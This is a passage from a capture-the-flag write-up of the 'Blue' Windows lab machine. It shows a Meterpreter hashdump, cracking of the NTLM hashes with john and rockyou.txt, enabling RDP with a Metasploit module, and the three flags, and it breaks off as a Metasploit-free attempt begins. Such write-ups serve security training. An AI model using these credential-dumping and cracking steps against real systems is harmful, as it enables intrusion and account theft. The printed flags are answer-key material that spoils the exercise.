 ```powershell
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

And of course, there is Jon. With our hashes and users, I dumped these credentials into a file and ran `john` against it with Kali's copy of the `rockyou.txt` password list.

```bash
root@kali:~/ctf/blue# john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
alqfna22         (Jon)
2g 0:00:00:00 DONE (2020-11-11 02:23) 3.076g/s 15692Kp/s 15692Kc/s 15700KC/s alr19882006..alpusidi
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

With the Jon user's password in hand, I ran the `post/windows/manage/enable_rdp` module and was quickly able to connect as the our Jon admin user.

```bash
meterpreter > run post/windows/manage/enable_rdp 

[*] Enabling Remote Desktop
[*]   RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]   The Terminal Services service is not set to auto, changing it to auto ...
[*]   Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20201111022704_default_10.10.201.83_host.windows.cle_997445.txt
```

### Wrapping up

With a new shell I was able to find each of the 3 flags in fairly standard locations on the C:\ drive.

- C:\flag1.txt flag{access_the_machine}
- C:\Windows\system32\config\flag2.txt flag{sam_database_elevated_access}
- C:\Users\Jon\Documents\flag3.txt flag{admin_documents_can_be_valuable}

## Attacking Blue without Metasploit

Now that I had completed the initial attack, I wanted to retry it without the help of metasploit for sourcing, packing and executing the exploit. This imposed the restriction of not having the meterpreter shell to rely on.
